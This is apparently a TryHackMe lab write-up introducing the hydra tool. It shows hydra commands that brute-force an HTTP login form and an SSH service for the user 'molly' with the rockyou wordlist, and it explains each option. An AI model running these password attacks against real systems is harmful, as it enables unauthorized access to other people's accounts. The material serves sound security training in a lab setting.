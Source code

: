 # Introduction to Hydra [TryHackMe](https://tryhackme.com/room/hydra)

---

```bash
export IP=10.10.61.134
```

http bruteforce:
```bash
$ hydra -V -t 64 -l molly -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/login/:username=molly&password=^PASS^:incorrect"
```
~~~
Breaking this down:
-V -> verbose
-t -> threads for the attack (more = faster)
-l -> single login value (use -L for a wordlist)
-P -> password list (use -p for a single password)
$IP -> variable storing the IP address we want to target
http-post-form -> we use post requests to the page
The last part can be broken down into
"route_to_login:username=^USER^&password=^PASS^:fail_string"

More options can be found in the hydra man page
~~~

![hydra http brute force](./assets/http_hydra.png)

ssh bruteforce was extremely quick
```bash
$ hydra -t 64 -l "molly" -P ~/wordlists/passwords/rockyou.txt ssh://$IP
```
~~~
Breaking this down, I will skip the ones covered in the http brute-force

ssh://$IP -> points to the IP we must brute-force and the type of port it is (use ssh://$IP:port to specify port)
~~~

![hydra ssh brute force](./assets/ssh_hydra.png)

Complete!
